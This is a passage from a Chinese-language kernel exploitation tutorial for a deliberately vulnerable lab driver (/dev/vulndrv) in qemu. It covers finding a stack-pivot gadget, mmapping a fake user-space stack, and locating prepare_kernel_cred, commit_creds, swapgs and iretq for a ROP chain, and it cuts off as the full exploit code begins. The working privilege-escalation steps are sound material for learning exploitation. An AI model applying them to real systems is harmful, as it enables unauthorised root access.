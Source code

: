 运行结果：

```bash
qemu$ ./find_xchg_addr.py
gadgets:0xffffffff810d7f38 : xchg eax, esp ; ret 0x14ff
gadgets addr:0xffffffff810d7f38L
array index:2305843009148791679
stack new addr:0x810d7f38L
```

### 4. mmap内存

```c
unsigned long stack_addr = 0x810d7f38UL;
unsigned long mmap_addr = stack_addr & 0xffff0000;
unsigned long *fake_stack;
void *mmapd_addr;
//申请内存映射到指定的用户空间地址
mmapd_addr = mmap((void *)mmap_addr,0x1000000,7,0x32,0,0);
//设置第一条gadgets，在xchg后栈指针将指向这里
fake_stack = (unsigned long*)stack_addr;
*fake_stack = pop_rdi;
//在ret 0x14ff后，新的栈指针位置
fake_stack = (unsigned long*)(stack_addr - 0x62a1);
```

这里选择的stack pivot带有操作数：`xchg eax, esp; ret 0x14ff`，即`xchg eax, esp; pop eip; add rsp 0x14ff`，此时`esp`就指向了`eax`表示的用户空间栈`fake_stack`，`eip指向fake_stack`中的gadget。

按道理讲第二条ROP链应该位于`fake_stack`偏移为0x14ff+8的位置，但是通过调试发现偏移却是**-0x61a1**（这里困扰了我很久。**注：在原作者blog里是0x9d5f，可能是不同版本的内核导致不一样。调试时在device_ioctl的call rax下断点，单步执行查看rsp变化即可**）。

### 5. 获取gadgets

在qemu中获取prepare_kernel_cred和commit_cred

```bash
/ $ cat /proc/kallsyms |grep prepare_kernel_cred
ffffffff81092850 T prepare_kernel_cred
/ $ cat /proc/kallsyms  |grep commit_cred
ffffffff81092550 T commit_creds
```

在vmlinux中获取iretq和swapgs

```
0xffffffff8168e3f4 : iretd ; int 0x81
0xffffffff81051744 : swapgs ; pop rbp ; ret
```

### 7. 完整payload

```c
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>      
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <errno.h>
#include <sys/mman.h>
#include <assert.h>

#define DEVICE_PATH "/dev/vulndrv"

struct drv_req {
    unsigned long offset;
```
